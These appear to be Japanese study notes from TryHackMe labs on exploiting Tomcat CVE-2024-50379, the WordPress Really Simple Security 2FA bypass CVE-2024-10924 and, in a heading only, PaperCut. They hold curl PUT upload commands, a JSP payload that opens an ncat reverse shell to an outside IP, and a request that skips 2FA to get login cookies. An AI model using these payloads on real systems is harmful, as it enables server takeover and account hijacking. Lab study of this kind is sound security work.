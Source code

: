 ```xml
<servlet>
  <servlet-name>default</servlet-name>
  <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
  <init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
  </init-param>
</servlet>
```

Linux では、demo.jsp と demo.Jsp は同じディレクトリに共存できるため成立しない。

Windows では、Tomcat は demo.jsp をサーブレットとして、demo.Jsp をテキストファイルとして扱う。

```sh
# これはエラーになる
curl -X PUT -d "test" http://10.10.87.31:8080/demo.jsp

# これはアップロード成功する（通常はテキストファイルとして扱われるので実行はされない）
curl -X PUT -d "test" http://10.10.87.31:8080/demo.Jsp
```

Jsp の PUT と jsp の GET が大量にリクエストされて高負荷になった場合、競合により Jsp がサーブレットとして実行される可能性がある。

```sh
git clone https://github.com/iSee857/CVE-2024-50379-PoC
```

```java
payload_put = "<%@ page import=\"java.io.*\" %><% Runtime.getRuntime().exec(\"cmd /c start ncat -e cmd.exe 10.10.54.182 8888\"); %>"
```

## CVE-2024-10924 (Really Simple Security)

https://tryhackme.com/room/bypassreallysimplesecurity

- WordPress の Really Simple Security プラグインの認証バイパス脆弱性
- 9.0.0 ~ 9.1.1.1
- プラグインの 2 要素認証（2FA）メカニズム用に設定された REST API エンドポイントが標的
- 2FA が有効になっているアカウントにのみ影響する

```python
url = "http://vulnerablewp.thm:8080/?rest_route=/reallysimplessl/v1/two_fa/skip_onboarding"
data = {
    "user_id": int(user_id),  # User ID from the argument
    "login_nonce": "invalid_nonce",  # Arbitrary value
    "redirect_to": "/wp-admin/"  # Target redirection
}

response = requests.post(url, json=data)
```

返ってきた Cookie をブラウザに設定すると、認証済状態になる。

## CVE-2023-27350 (PaperCut)
